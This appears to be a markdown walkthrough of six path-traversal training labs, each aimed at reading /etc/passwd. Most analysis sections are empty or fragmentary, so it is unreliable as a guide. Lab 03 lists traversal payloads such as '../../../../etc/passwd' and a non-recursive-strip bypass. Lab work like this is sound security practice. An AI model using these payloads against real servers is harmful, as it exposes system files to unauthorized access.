

# Directory Traversal - Walkthroughs

## Lab 01: File path traversal, simple case

Target Goal - Retrieve the contents of the /etc/passwd file.

## Analysis

/var/www/images/65.jpg

/etc/passwd

---

## Lab 02: File path traversal, traversal sequences blocked with absolute path bypass

Target Goal - Retrieve the contents of the /etc/passwd file.

## Analysis

---

## Lab 03: File path traversal, traversal sequences stripped non-recursively

Target Goal - Retrieve the contents of the /etc/passwd file.

## Analysis

/etc/passwd
../../../../etc/passwd
....//....//....//....//etc/passwd

../

---

## Lab 04: File path traversal, traversal sequences stripped with superfluous URL-decode

Target Goal - Retrieve the contents of the /etc/passwd file.

## Analysis

../

---

## Lab 05: File path traversal, validation of start of path

Target Goal - Retrieve the contents of the /etc/passwd file.

## Analysis

/var/www/images/67.jpg

---

## Lab 06: File path traversal, validation of file extension with null byte bypass

Target Goal - Retrieve the contents of the /etc/passwd file.

## Analysis

---

